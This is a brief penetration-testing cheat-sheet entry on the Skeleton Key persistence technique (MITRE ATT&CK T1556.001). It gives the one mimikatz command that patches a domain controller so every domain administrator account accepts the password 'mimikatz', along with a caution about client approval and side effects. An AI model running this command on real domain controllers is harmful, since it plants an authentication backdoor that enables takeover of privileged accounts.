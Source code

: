 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1556.001
---
```


# Domain Controller Authentication

### Creating the Skeleton Key

```bash
mimikatz !misc::skeleton
```

This will allow you (by default) to log in with any domain administrators account using the password `mimikatz`

**Notes:** This should not be used unless explicitly discussed with a client. A skeleton key cannot be removed until the domain controllers impacted are restarted. Additionally, it is possible for this attack to cause unintended effects.
